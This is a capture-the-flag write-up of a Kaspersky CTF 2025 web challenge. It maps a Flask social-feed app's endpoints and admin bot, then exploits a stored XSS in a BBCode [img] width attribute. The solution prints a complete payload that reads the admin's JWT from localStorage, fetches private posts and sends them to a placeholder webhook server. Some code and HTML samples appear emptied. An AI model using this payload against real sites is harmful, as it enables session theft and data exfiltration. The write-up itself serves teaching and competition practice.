



# WhiteDukesDZ - Kaspersky CTF 2025 Writeup: Bubble Revenge Challenge



In addition to the main application, we received a `challenge` directory containing all deployment and source files. This included:

- Docker and Docker Compose configurations for local and remote deployment.
- Backend source code.
- The admin bot implementation.
- Frontend build files.
- Nginx configuration for reverse proxying.

Having access to these resources allowed for thorough analysis and local testing of the challenge environment.

---

## Challenge Summary

This challenge featured a straightforward Python Flask web application that simulated a social media feed, allowing users to create posts, comment, and manage their profiles, all secured with JWT authentication. Additionally, an admin bot was present: whenever a post URL was submitted, the bot would visit and interact with it. The objective was to analyze the application for vulnerabilities and exploit them to obtain the flag.

## Application Analysis

After reviewing the `backend` files, we identified these main endpoints:

1. **`/auth/register` (Registration):**
    - Accepts `POST` requests with `username` and `password` in the request body.
    - Returns a `400` status if the `username` is shorter than 3 or longer than 100 characters.
    - Returns a `400` status if the `username` contains non-printable characters.
    - Returns a `400` status if the `password` is missing or shorter than 8 characters.
    - Returns a `409` status if the `username` already exists in the database.
    
    Otherwise, the new user is added to the database, JWT tokens are generated, and a `201` status is returned.

2. **`/auth/login` (Login):**
    - Accepts `POST` requests with `username` and `password` in the request body.
    - Returns a `401` status if the `username` does not exist or the `password` is incorrect.
    
    Otherwise, JWT tokens are generated for the user and a `200` status is returned.

3. **`/auth/logout` (Logout):**
    - Accepts a `POST` request with an empty body.
    
    The user's token is blacklisted, effectively logging them out, and a `200` status is returned.

4. **`/users/me` (Current User Information):**
    - Supports both `GET` and `PUT` requests; authentication is required.
    - On `GET`: Retrieves the current user's ID from the JWT token, fetches the corresponding user information from the database, and returns it with a `200` status.
    - On `PUT`: Retrieves the current user's ID from the JWT token and expects a `username` in the request body.
        - Returns a `400` status if the `username` is shorter than 3 or longer than 100 characters.
        - Returns a `400` status if the `username` contains non-printable characters.
        - Returns a `409` status if the `username` already exists in the database.
        
        If all checks pass, updates the `username` in the database and returns the updated user information with a `200` status.

5. **`/users/<user_id>` (Retrieve User Information):**

    - Accepts `GET` requests and requires authentication.
    - Retrieves the specified `user_id` from the request parameters and fetches the corresponding user information from the database.
    - Returns a `404` status if the user does not exist; otherwise, returns the user information with a `200` status.

6. **`/posts/` (Get Posts, Create Post):**
    - Accepts `GET`, `POST` requests; authentication is required.
    - If `GET`, supports pagination via `page` and `per_page` query parameters (with a maximum of 50 per page).
        - Returns a list of posts created by the current user, each including up to three most recent comments.
        - Responds with a JSON object containing the posts, pagination info, and a `200` status.
    - If `POST`, expects a JSON body with a `content` field (and optional `is_private` boolean).
        - Returns a `400` status if no data is provided, or if the `content` is empty or exceeds 2000 characters.
        - The post content is parsed using a <ins>BBCode parser</ins> and stored in both raw and HTML form.
        - If a draft exists for the user, it is deleted upon successful post creation.
        - On success, creates a new post in the database and returns a success message and the post data with a `201` status.
        - Returns a `500` status with error details if a database error occurs.

7. **`/posts/user/<user_id>/posts/<post_id>` (Get Specific Post):**
    - Accepts `GET`, `PUT`, `DELETE` requests; authentication is required.
    - If `GET`, validates the format of `post_id` and `user_id`.
        - Returns the post if found, or an error message with appropriate status code if not.
    - If `DELETE`, only allows the owner of the post to delete it.
        - Returns a `400` status if the post or user ID format is invalid.
        - Returns a `403` status if a user attempts to delete another user's post.
        - Returns a `404` status if the post does not exist.
        - On success, deletes the post and returns a success message with a `200` status.
        - Returns a `500` status with error details if a database error occurs.
    - If `PUT`, Validates the format of `post_id` and `user_id`.
        - Expects a JSON body with a `content` field.
        - Returns a `403` status if the user is not the owner of the post.
        - Returns a `400` status if the content is empty or exceeds 2000 characters.
        - The post content is parsed using a <ins>BBCode parser</ins> and stored in both raw and HTML form.
        - On success, creates a new post in the database and returns a success message and the post data with a `200` status.

8. **`/comments/user/<user_id>/posts/<post_id>` (Create Comment):**
    - Accepts `POST` requests; authentication is required.
    - Validates the format of `post_id` and `user_id`.
    - Expects a JSON body with a `content` field.
    - Returns a `400` status if the content is empty or exceeds 2000 characters.
    - The comment content is parsed using a <ins>BBCode parser</ins> and stored in HTML form.
    - If the post exists and the content is valid, creates a new comment and returns it with a `200` status.

9. **`/drafts/save` (Save Draft):**
    - Accepts `POST` requests; authentication is required.
    - Expects a JSON body with a `content` field.
    - Returns a `400` status if the content is empty or exceeds 2000 characters.
    - Saves the draft content in Redis, associated with the current user, and returns a success message and the draft data with a `200` status.

10. **`/drafts/load` (Load Draft):**
    - Accepts `GET` requests; authentication is required.
    - Loads the draft content for the current user from Redis.
    - If no draft is found, returns an empty list and a message; otherwise, returns the draft data and a success message with a `200` status.

All user content for both `posts` and `comments` is processed through a custom BBCode parser implemented in `bb_parser.py` (located in the `utils` folder):
    
    - The parser supports a variety of BBCode tags, including `[youtube]`, `[yt]`, `[img]`, `[h1]`, and `[sup]`, allowing users to embed YouTube videos, images, and styled text in their posts and comments.
    
    - The parser sanitizes input to prevent the use of dangerous protocols (such as `javascript:`, `data:`, or `vbscript:`) in tag options.
    
    - For images, the parser allows specifying width and height attributes, which are also sanitized.
    
    - All parsed content is rendered as HTML.

### Admin Bot Implementation

The challenge includes an automated admin bot, implemented using Python and Selenium with a headless Chromium browser. The bot is responsible for simulating an admin user who interacts with the web application in a realistic way. Its main behaviors and security implications are as follows:

1. **Registration and Credential Management:**
    - On startup, the bot registers a new user with a random username and password, storing these credentials for future sessions.
    - The bot logs in using these credentials for all subsequent actions.

2. **Flag Handling:**
    - After registration, the bot reads the flag from a file and creates a private post containing the flag. This ensures the flag is only accessible to the admin account.

3. **Visiting User-Submitted URLs:**
    - The bot exposes a `visit(url)` function, which is triggered when a user submits a post URL for review.
    - The bot only visits URLs that match the `/post/` path on the service host, preventing arbitrary navigation and reducing the risk of SSRF or open redirect attacks.

4. **Interaction Logic:**
    - Upon visiting a post, the bot leaves a comment using a randomly selected, friendly message, and may also create a new post with a positive message.
    - All interactions are performed as the admin user, using the same browser session.

5. **Browser Security Settings:**
    - The bot runs Chromium in headless mode with a hardened set of flags: disabling GPU, sandboxing, device discovery, and XSS auditor, and using a dedicated user data directory.
    - The browser is configured to accept insecure certificates, but does not allow navigation to non-service URLs.

6. **Error Handling and Cleanup:**
    - The bot handles errors gracefully, logging tracebacks and ensuring the browser is closed after each run.

**Security Implications:**

- The bot's strict URL filtering and browser hardening are designed to mitigate common web exploitation vectors, such as XSS, CSRF, and SSRF, but any XSS in a post or comment viewed by the bot could potentially compromise the admin session and leak the flag.
- The use of Selenium and a real browser means that DOM-based and client-side vulnerabilities are in scope for exploitation.

### Security Observations

- The BBC Parser is clearly vulnerable, and can make us pass xss payloads:

```python
@staticmethod
    def render_img(name, value, options, parent, context):
        img_options = {}
        if img_width := options.get('width'):
            img_options['width'] = img_width
        if img_height := options.get('height'):
            img_options['height'] = img_height
        BBCodeParser.options_cleaner(img_options)
        attrs = " ".join([
            f"{attr_key}={attr_value}" for attr_key, attr_value in img_options.items()
        ])
        return f''
```

Looking at this code for example, `attrs` are joined directly without any verification, so if we pass this payload for example:

```bbc
[img width="100 onload=alert(1)"]https://whitedukesdz.ninja/logo.png[/img]
```

After parsing, it will result in this html after BBC parsing:

```html

```

### Stored XSS

Both `comments` and `posts` are processed through the BBCode parser and then stored in the database. As observed during our analysis, this means that any content submitted by users—including malicious XSS payloads—will be rendered and executed in the browser of anyone viewing the post or comment.



This behavior can be exploited to target the admin bot. By injecting a crafted XSS payload into a post or comment, we can execute arbitrary JavaScript in the context of the admin's session when the bot visits our post. Our objective is to leverage this to gain access to the admin account and ultimately retrieve the flag, which is stored in a private post only accessible to the admin.

---

## Solution

Based on our analysis, obtaining the flag requires exploiting a stored XSS vulnerability to exfiltrate the admin's private post. The approach is to craft a payload that, when executed in the admin bot's browser, fetches `/api/posts` (which includes the private flag post) and sends the data to a server we control.

A suitable JavaScript payload is:

```js
fetch('/api/posts',{method:'GET',headers:{'Authorization':'Bearer'+String.fromCharCode(32)+localStorage.getItem('DiarrheaTokenBearerInLocalStorageForSecureRequestsContactAdminHeKnowsHotToUseWeHaveManyTokensHereSoThisOneShouldBeUnique')}}).then(r=>r.json()).then(data=>fetch('https://YOUR_SERVER_OR_WEBHOOK',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'posts='+encodeURIComponent(JSON.stringify(data.items))}))
```

To deliver this payload, we use the vulnerable `[img]` BBCode tag, injecting our JavaScript into the `onload` attribute:

```html
[img width="100 onload=fetch('/api/posts',{method:'GET',headers:{'Authorization':'Bearer'+String.fromCharCode(32)+localStorage.getItem('DiarrheaTokenBearerInLocalStorageForSecureRequestsContactAdminHeKnowsHotToUseWeHaveManyTokensHereSoThisOneShouldBeUnique')}}).then(r=>r.json()).then(data=>fetch('https://YOUR_SERVER_OR_WEBHOOK',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'posts='+encodeURIComponent(JSON.stringify(data.items))}))"]https://whitedukesdz.ninja/logo.png[/img]
```

**Key points:**
- We avoid using a literal space character, as it would break the BBCode parsing. Instead, `String.fromCharCode(32)` is used to insert a space in the Authorization header.
- The JWT token is stored in local storage under a long, unique key, which we identified using DevTools:

  

**Attack Steps:**
1. **Create a post** containing the XSS payload.
2. **Submit the post URL** to the admin bot for review.
3. **Wait for the bot** to visit the post, triggering the payload and sending the admin's posts (including the flag) to our webhook.
4. **Retrieve the flag** from our server logs.

To automate this process, we developed a Python script (`solution/solve.py`) that registers a user, creates the malicious post, submits it to the bot, and fetches the flag from our webhook logs.

If successful, the script produces output similar to:

```sh
└─$ python3 solve.py
Account created successfully.
Post created successfully.
Submitted to bot successfully.
kaspersky{6um66le_0n_fr3sh_1_4m_4_s3rf3r_fr}
```


